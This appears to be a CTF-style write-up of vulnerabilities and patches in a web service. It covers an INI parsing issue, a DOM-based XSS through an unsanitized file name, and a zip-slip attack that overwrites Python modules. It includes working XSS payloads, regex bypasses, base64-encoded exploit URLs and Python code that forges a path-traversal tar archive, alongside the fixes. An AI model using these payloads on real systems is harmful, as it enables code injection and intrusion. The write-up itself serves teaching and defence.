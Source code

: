 #### Patch 1 - Use parse_ini_string without fancy features

You can supply `INI_SCANNER_RAW` as a flag, which will not replace environment variables.

#### Patch 2 - Avoid parse_ini_string

You can try to implement a simple parser that does not have fancy interpretation features.


Vulnerabilities & Patches (Flag store 2)
----------------------------------------
### Vuln 6 - Simple DOM-based XSS

In the pyscript file powering the `analyze` endpoint, the `fname` variable is added to the DOM unsanitized. Trivially, something like b64 encoding `<img src=a onerror=alert(1)>` as a name for an archive will trigger an alert message, See, e.g., http://localtest.me:10010/analyze#PGltZyBzcmM9YSBvbmVycm9yPWFsZXJ0KDEpPg==@

Even if the `elog` call is removed/fixed, the regular expression used to check for tar files does a partial match due to using `re.match` instead of `re.search`:

```Python
# check if the file is a valid archive, only allow letters, numbers, underscore, and dash
# followed by standard tar suffixes
if re.match('[\w-]+\.tar((\.gz)?|(\.bz2))?', fname):
    log(f'Analyzing {fname}')
```

A possible bypass is `bar.tar.gz<img src=a onerror=alert(1)>`, like http://localtest.me:10010/analyze#YmFyLnRhci5nejxpbWcgc3JjPWEgb25lcnJvcj1hbGVydCgxKT4K@

Notice that an even stricter regexp, such as `^[\w-]+\.tar((\.gz)?|(\.bz2))?$` could be bypassed by providing a filename containing newlines, like `bar.tar.gz\n<img src=a onerror=alert(1)>` http://localtest.me:10010/analyze#YmFyLnRhci5nego8aW1nIHNyYz1hIG9uZXJyb3I9YWxlcnQoMSk+@

#### Patch

There are several ways to prevent this from working. Changing the `log` function to append textual elements filled with `innerText` is probably the most effective one.

### Vuln 7 - DOM-based XSS by shadowing Python modules via zip slip attack

It's possible to forge a tar file that, when upacked, overwrites Python modules to obtain code execution. Notice that Python code execution translates to XSS in the context of this service. The malicious tar file can be created as follows:

```Python
import tarfile
tf = tarfile.open('test.tar.gz', "w:gz")
tf.add('uuid.py', '../../lib/python3.10/uuid.py')
tf.close()
```

Where `uuid.py` is something like
```Python
from js import alert
alert("PWND")
```

Providing this file to the application triggers the XSS: http://localtest.me:10010/analyze#dGVzdC50YXIuZ3o=@H4sICGwrDWMC/3Rlc3QudGFyAO3UP0sDMRjH8Zv7KkInXZI89yeng+Dg4CTdnCM9aeTOO3I5ad+9rR0UobjUYuX7IeQJyQMhwy/aaHO78Ov7xi+bmP0Ku3eoWlsUn+vdvkhZSabW2QlMY/Jxe/2xH3km8lp1KXTNjTgn9fVV6URXNre1zDL8f1qb7WjDkxk2adW/Flqsmaaw1MPmmPl3rtxVqSv7te6V3/PvcikyZU+Z/9a/hXF1uO+n8zPN/3PsO/UyqtANfUzKt01Ms4/5Yr54fLibX/IPAAAAAAAAAAAAAAAA/GXvWrK7TwAoAAA=
